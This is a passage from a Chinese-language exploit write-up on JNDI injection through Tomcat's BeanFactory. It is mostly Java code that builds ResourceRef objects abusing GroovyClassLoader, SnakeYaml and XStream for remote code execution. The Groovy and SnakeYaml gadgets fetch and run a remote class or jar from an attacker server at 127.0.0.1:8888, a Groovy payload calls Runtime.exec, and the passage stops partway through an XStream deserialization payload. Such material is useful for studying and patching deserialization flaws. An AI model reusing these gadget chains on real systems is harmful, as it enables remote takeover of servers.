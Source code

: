 和`MLet`基本原理一样，不同于`MLet`的是`GroovyClassLoader`可以`RCE`  
```java  
private static ResourceRef tomcatGroovyClassLoader(){    
    ResourceRef ref = new ResourceRef(&#34;groovy.lang.GroovyClassLoader&#34;, null, &#34;&#34;, &#34;&#34;,    
            true, &#34;org.apache.naming.factory.BeanFactory&#34;, null);    
    ref.add(new StringRefAddr(&#34;forceString&#34;, &#34;a=addClasspath,b=loadClass&#34;));    
    ref.add(new StringRefAddr(&#34;a&#34;, &#34;http://127.0.0.1:8888/&#34;));    
    ref.add(new StringRefAddr(&#34;b&#34;, &#34;evil&#34;));    
    return ref;    
}  
```  
`evil.groovy`  
```java  
@groovy.transform.ASTTest(value={assert Runtime.getRuntime().exec(&#34;/System/Applications/Calculator.app/Contents/MacOS/Calculator&#34;)})  
class Person{}  
```  
### SnakeYaml  
`new org.yaml.snakeyaml.Yaml().load(String)`正好也符合条件  
```java  
private static ResourceRef tomcat_snakeyaml(){  
    ResourceRef ref = new ResourceRef(&#34;org.yaml.snakeyaml.Yaml&#34;, null, &#34;&#34;, &#34;&#34;,  
            true, &#34;org.apache.naming.factory.BeanFactory&#34;, null);  
    String yaml = &#34;!!javax.script.ScriptEngineManager [\n&#34; &#43;  
            &#34;  !!java.net.URLClassLoader [[\n&#34; &#43;  
            &#34;    !!java.net.URL [\&#34;http://127.0.0.1:8888/exp.jar\&#34;]\n&#34; &#43;  
            &#34;  ]]\n&#34; &#43;  
            &#34;]&#34;;  
    ref.add(new StringRefAddr(&#34;forceString&#34;, &#34;a=load&#34;));  
    ref.add(new StringRefAddr(&#34;a&#34;, yaml));  
    return ref;  
}  
```  
### XString  
`new com.thoughtworks.xstream.XStream().fromXML(String)`  
```java  
private static ResourceRef tomcat_xstream(){  
    ResourceRef ref = new ResourceRef(&#34;com.thoughtworks.xstream.XStream&#34;, null, &#34;&#34;, &#34;&#34;,  
            true, &#34;org.apache.naming.factory.BeanFactory&#34;, null);  
    String xml = &#34;&lt;java.util.PriorityQueue serialization=&#39;custom&#39;&gt;\n&#34; &#43;  
            &#34;  &lt;unserializable-parents/&gt;\n&#34; &#43;  
            &#34;  &lt;java.util.PriorityQueue&gt;\n&#34; &#43;  
            &#34;    &lt;default&gt;\n&#34; &#43;  
            &#34;      &lt;size&gt;2&lt;/size&gt;\n&#34; &#43;  
            &#34;    &lt;/default&gt;\n&#34; &#43;  
            &#34;    &lt;int&gt;3&lt;/int&gt;\n&#34; &#43;  
            &#34;    &lt;dynamic-proxy&gt;\n&#34; &#43;  
            &#34;      &lt;interface&gt;java.lang.Comparable&lt;/interface&gt;\n&#34; &#43;  
            &#34;      &lt;handler class=&#39;sun.tracing.NullProvider&#39;&gt;\n&#34; &#43;  
            &#34;        &lt;active&gt;true&lt;/active&gt;\n&#34; &#43;  
            &#34;        &lt;providerType&gt;java.lang.Comparable&lt;/providerType&gt;\n&#34; &#43;  
            &#34;        &lt;probes&gt;\n&#34; &#43;  
            &#34;          &lt;entry&gt;\n&#34; &#43;  
            &#34;            &lt;method&gt;\n&#34; &#43;  
            &#34;              &lt;class&gt;java.lang.Comparable&lt;/class&gt;\n&#34; &#43;  
            &#34;              &lt;name&gt;compareTo&lt;/name&gt;\n&#34; &#43;  
            &#34;              &lt;parameter-types&gt;\n&#34; &#43;  
            &#34;                &lt;class&gt;java.lang.Object&lt;/class&gt;\n&#34; &#43;  
            &#34;              &lt;/parameter-types&gt;\n&#34; &#43;  
            &#34;            &lt;/method&gt;\n&#34; &#43;  
```